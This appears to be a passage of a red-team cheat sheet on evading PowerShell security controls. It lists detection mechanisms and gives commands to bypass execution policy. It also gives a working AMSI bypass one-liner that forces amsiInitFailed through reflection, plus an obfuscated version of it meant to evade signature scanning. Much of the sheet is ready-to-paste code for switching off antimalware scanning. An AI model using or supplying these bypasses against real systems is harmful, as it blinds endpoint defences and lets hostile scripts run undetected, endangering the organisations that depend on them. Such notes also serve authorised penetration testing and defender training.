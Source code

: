 ## PowerShell
- [General](#general)
- [Execution-policy](#execution-policy)
- [AMSI](#amsi)
- [ETW](#etw)
- [Constrained Language Mode](#constrained-language-mode)
- [Logging evasion](#logging-evasion)
- [Just Enough Admin (JEA)](#just-enough-admin-jea)

## General
### Powershell detections
- System-wide transcription
- Script Block logging 
- Module logging
- AntiMalware Scan Interface (AMSI)
- Constrained Language Mode (CLM) - Integrated with Applocker and WDAC (Device Guard)

#### Start 64 bit powershell
```
%SystemRoot%\sysnative\WindowsPowerShell\v1.0\powershell.exe
```

## Execution-policy
- It is not a security boundary.

#### Get Execution policy
```
Get-Executionpolicy
```

#### Bypass execution policy
- Not meant to be a security measure
```
powershell –executionpolicy bypass .\script.ps1
powershell –c <cmd>
powershell –enc
powershell.exe -executionpolicy bypass
```

## AMSI
- https://amsi.fail/
- Get an AMSI bypass string and then obfuscate [manually](#Obfuscation-techniques)

#### AMSI bypass string
```
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

#### AMSI bypass string obfuscated
```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
